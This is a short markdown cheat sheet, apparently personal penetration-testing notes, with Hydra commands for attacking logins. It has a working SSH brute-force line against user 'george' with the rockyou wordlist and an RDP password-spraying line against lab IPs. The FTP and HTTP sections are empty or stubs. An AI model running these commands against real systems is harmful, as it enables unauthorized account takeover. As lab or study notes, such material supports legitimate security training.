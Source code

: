 
# SSH
```
sudo hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```


# RDP
```
sudo hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```


# FTP
```
ftp://
```


# HTTP GET


# HTTP POST

